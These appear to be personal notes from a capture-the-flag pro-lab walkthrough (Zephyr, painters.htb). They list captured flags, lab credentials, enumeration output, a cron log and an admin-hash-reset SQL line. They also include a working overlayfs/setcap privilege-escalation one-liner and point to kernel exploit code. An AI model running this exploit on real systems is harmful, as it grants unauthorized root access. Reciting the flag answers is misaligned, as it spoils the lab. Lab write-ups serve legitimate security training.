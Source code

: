 # Information
- CTF Name: 
- CTF Level:
- CTF Description: 
- Date: 
- Platform: 
- Category: 

# Findings
### Credentials
` riley : P@ssw0rd `
DB: ` riley : PainterDBPassword2022`

### Flags
1. `ZEPHYR{HuM4n_3rr0r_1s_0uR_D0wnf4ll}`
2. `ZEPHYR{S3rV1c3_AcC0Un7_5PN_Tr0uBl35}`
3. `ZEPHYR{PwN1nG_W17h_P4s5W0rd_R3U53}`
4. `ZEPHYR{P3r5isT4nc3_1s_k3Y_4_M0v3men7}`
5. `ZEPHYR{P41n73r_D0m41n_D0m1n4nc3}`
6. `ZEPHYR{L34v3_N0_St0n3_Un7urN3d}`
7. `ZEPHYR{34t1ng_7h3_B0n3s_0f_N3tw0rks}`
8. `ZEPHYR{SQLi_2_Imp3rs0n4710n_fun}`
9. `ZEPHYR{34t1ng_7h3_B0n3s_0f_N3tw0rks}`
10. `ZEPHYR{K3y_Cr3d3n714l_l1nk_d4ng3r}`
11. `ZEPHYR{C4n7_F0rg3t_ab0u7_7h1s_0n3}`
12. `ZEPHYR{In73rn4l_D0m41n_D0m1n473d}`
13. `ZEPHYR{C0n57r4in3d_d3l3g4710n_1s_d4ng3r0us}`
14. `ZEPHYR{7h3_Tru57_h45_B3eN_Br0k3n}`
15. `ZEPHYR{Abu51ng_d3f4ul7_Func710n4li7y_ftw}`
16. `ZEPHYR{G0tt4_l1nk_Up_4m_1_r1gh7?}`
17. `ZEPHYR{S3rv1c3_M4n4g3m3nt_f41L5}`
18. `ZEPHYR{D0n7_f0rg3t_Imp0rt4nt_Inf0rm4710n}`

### Machines
1. [[PNT - DC01]]
2. [[PNT - SVRSVC]]
3. [[PNT - SVRBPA]]
4. [[WORKSTATION-1]]
5. [[PNT - SVRPSB]]
6. [[ZPH - SVRDC01]] - Skipped
7. [[ZPH - SVRCA01]] - Skipped
8. [[ZPH - SVRADFS1]] - Skipped
9. [[ZPH-SVRMGMT1]] - Skipped
10. [[ZPH - SVRSQL01]] - Skipped
11. [[ZPH - SVRCDC01]]
12. [[ZEPHYR-SQL02]]
13. [[ZEPHYR-HR]]
14. [[ZEPHYR-SUPPORT]]
15. [[ZEPHYR-ZABBIX]]
16. ZEPHYR-WKST
17. 
## External
### Enumeration
![](https://i.imgur.com/ecJojky.png)
`mail.painters.htb  192.168.110.51`
- users
	- Toby Harlington
	- James Ray
	- Thomas Bishop
	- Mary Brabbs
	- Christopher Parker
	- Ralph Davies
![](https://i.imgur.com/snDYmIO.png)
![](https://i.imgur.com/dcKLQo2.png)
`?id=1`
![](https://i.imgur.com/7Jha53C.png)
```shell
# The Text from the site

All applications will be reviewed by our staff on a first come first serve basis so please be patient as there may be a delay in responses.
```
- This means if i did some kind of injections then i can get reverse thing, but the reverse thing is hard to get so, the most likely thing is to get XSS cookie.
![](https://i.imgur.com/MxBMdnS.png)
![](https://i.imgur.com/3Eani5j.png)
![](https://i.imgur.com/fx5ThiU.png)
- But idk which payload made this request
![](https://i.imgur.com/kgt8gUu.png)
- `User-Agent: Mozilla/3.0 (compatible; Acrobat Annots 23.6.20380 )`
- I tried to check metasploit malicious pdfs if it generates and i found this
![](https://i.imgur.com/UpZ3ZHB.png)
![](https://i.imgur.com/WV9Q7yC.png)
![](https://i.imgur.com/5KxB2ZP.png)
### Gaining Access
![](https://i.imgur.com/GuztZoq.png)
![](https://i.imgur.com/QuYde7c.png)
![](https://i.imgur.com/DigMjPA.png)
## Internal
### Enumeration
![](https://i.imgur.com/7NmVys3.png)
![](https://i.imgur.com/eRhnSEr.png)

```
/etc/postfix
/etc/postfix/master.cf

-rwsr-xr-x 1 root root 31K Feb 21  2022 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)


sudoedit -s Y

tmux -S /tmp/tmux-1003
/var/log/nginx/access.log
logrotate 3.14.0

    Default mail command:       /usr/bin/mail
    Default compress command:   /bin/gzip
    Default uncompress command: /bin/gunzip
    Default compress extension: .gz
    Default state file path:    /var/lib/logrotate/status
    ACL support:                yes
    SELinux support:            yes

update users SET password='$2a$12$DPjQY/ojg5j61WGzIifEEekBzeWytzg5RlPLOYexWfZxSK3fhI5Zi' where USER='admin';

2024/06/27 07:51:38 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity
2024/06/27 07:51:38 CMD: UID=0     PID=91686  |
2024/06/27 08:00:01 CMD: UID=0     PID=91691  | /usr/sbin/CRON -f
2024/06/27 08:00:01 CMD: UID=0     PID=91692  | /bin/sh -c /bin/bash -c /root/scripts/restore.sh
2024/06/27 08:00:01 CMD: UID=0     PID=91694  |
2024/06/27 08:00:01 CMD: UID=0     PID=91693  | /bin/bash /root/scripts/restore.sh
2024/06/27 08:03:13 CMD: UID=0     PID=91695  |
```
![](https://i.imgur.com/lqGvaLD.png)
```shell
define("DB_HOST", "localhost");
define("DB_NAME", "painter");
define("DB_CHARSET", "utf8");
define("DB_USER", "riley");
define("DB_PASSWORD", "PainterDBPassword2022");
```
![](https://i.imgur.com/eguLdlC.png)

![](https://i.imgur.com/t1Lk7Rj.png)
![](https://i.imgur.com/E9k0Olz.png)
```shell
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"cp /home/blake/Maildir /home/riley/.rexder\")'";rm -rf l u w m
```
![](https://i.imgur.com/M24sBF6.png)
- The kernel is vulnerable but i dont have gcc to compile the exploit.
	- https://github.com/briskets/CVE-2021-3493/blob/main/exploit.c
> BLAKE 
> Matt has sudo access

![](https://i.imgur.com/Gb5qw2d.png)
![](https://i.imgur.com/dHdAhV3.png)
![](https://i.imgur.com/uL1LCjf.png)

![](https://i.imgur.com/Nh3XAFN.png)
- So i tried to login with it - `PASSWORD REUSE`
- ![](https://i.imgur.com/jtrBv8h.png)

### Gaining Access
![](https://i.imgur.com/U6vYGNj.png)

```shell
~/C/H/P/zephyr > 10.10.14.3 $ fping -asgq 192.168.110.0/24
192.168.110.1
192.168.110.55  <- OWNED
192.168.110.51 <- process
192.168.110.54  <- OWNED
192.168.110.53 <- OWNED
192.168.110.52  <- OWNED
192.168.110.56 <- OWNED

~/C/H/P/zephyr > 10.10.14.3 $ crackmapexec smb 192.168.110.0/24
SMB         192.168.110.55  445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:painters.htb) (signing:True) (SMBv1:False)
SMB         192.168.110.52  445    PNT-SVRSVC       [*] Windows Server 2022 Build 20348 x64 (name:PNT-SVRSVC) (domain:painters.htb) (signing:False) (SMBv1:False)
SMB         192.168.110.53  445    PNT-SVRBPA       [*] Windows Server 2022 Build 20348 x64 (name:PNT-SVRBPA) (domain:painters.htb) (signing:False) (SMBv1:False)

```
### Maintaining Access
- After i Compromised the DOmain [[PNT - DC01]] - i got matts password
![](https://i.imgur.com/w0Wuc8A.png)
- `painters.htb\Matt:CLEARTEXT:L1f30f4Spr1ngCh1ck3n!`
![](https://i.imgur.com/hVivRBl.png)
![](https://i.imgur.com/ISCd4KF.png)

# Random Notes